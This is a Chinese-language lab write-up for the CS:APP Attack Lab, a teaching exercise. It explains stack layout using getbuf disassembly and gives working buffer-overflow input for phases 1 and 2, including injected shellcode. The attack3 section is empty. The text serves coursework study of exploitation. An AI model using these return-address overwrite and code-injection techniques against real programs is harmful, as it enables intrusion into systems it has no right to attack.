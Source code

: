 注意，运行./rtarget或者ctarget可能有问题，加上-q即可

## attack1:

我使用的操作系统是Ubuntu 22.04版本，在这个版本上运行ctarget程序会出现Segmentation Fault。如果你用gdb调试会发现在__vfprintf_internal方法内部有问题，具体修复方法可以参考：[Fix CS:APP Attack Lab Segmentation Fault on Newest Ubuntu 22.04](https://blog.rijuyuezhu.top/posts/db646f34/)。建议使用更老的linux版本。我使用18是没问题的。

请先阅读attacklab.pdf

`hex2raw` 是一个字一个字的读，也就是一次读8个字节，但是字内部是小端，比如attack1.txt：`41 00 00 00 00 00 00 00`

执行./hex2raw < attack1.txt会输出 `A`。`./hex2raw < attack1.txt | ./ctarget -q`我们可以用这个命令执行程序

根据pdf的意思，我们首先要侵入一个程序，让它运行 `4017c0 <touch1>:` 。方法需要你知道栈的运行过程，当我们调用函数的时候，会自动的把程序的返回地址先压入栈中，然后再进入调用的函数，调用完成后返回，示意图如下：

```
[ 返回地址 ]        <--- 函数返回后，跳转到这里执行
[ buffer (x 字节) ]<--- 局部变量，用于存储用户输入
```

我们这个程序是从 `401968 <test>` 函数开始的

```asm
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf>
```

```asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

getbuf给栈分配了40个字节的空间，40个之后就是返回地址了。所以我们先随便输入40个字节，再把后面的八个字节换成touch1的地址4017C0就成功了。

输入
```
A0 00 00 00 00 00 00 00
B0 00 00 00 00 00 00 00
C0 00 00 00 00 00 00 00
D0 00 00 00 00 00 00 00
E0 00 00 00 00 00 00 00
C0 17 40 00 00 00 00 00
```

## attack2:

rsp进入getbuf的时候是0x5561dca0，rsp减40个字节就是0x5561dc78。我们需要。我们的返回地址设成栈顶，并把栈顶的内容换成一个命令的二进制，计算机会自动执行他们。90是占位符，没作用

输入
```
48 BF FA 97 B9 59 00 00 00 00	/*	mov rdi, 0x59B997FA	*/
68 EC 17 40 00					/*	push 0x004017EC		*/
C3  							/*	ret					*/
90 90 90 90 90 90 90 90			
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
78 dc 61 55 00 00 00 00
```

注意在 64 位模式下，push 会将 8 字节值压入栈中（即使立即数是 32 位的，也会被符号扩展为 64 位）。如果push四字节后面是一些00 00，那么会被认为是其他的指令，比如add %al, (%rax)，对应的二进制是：00 00


## attack3:
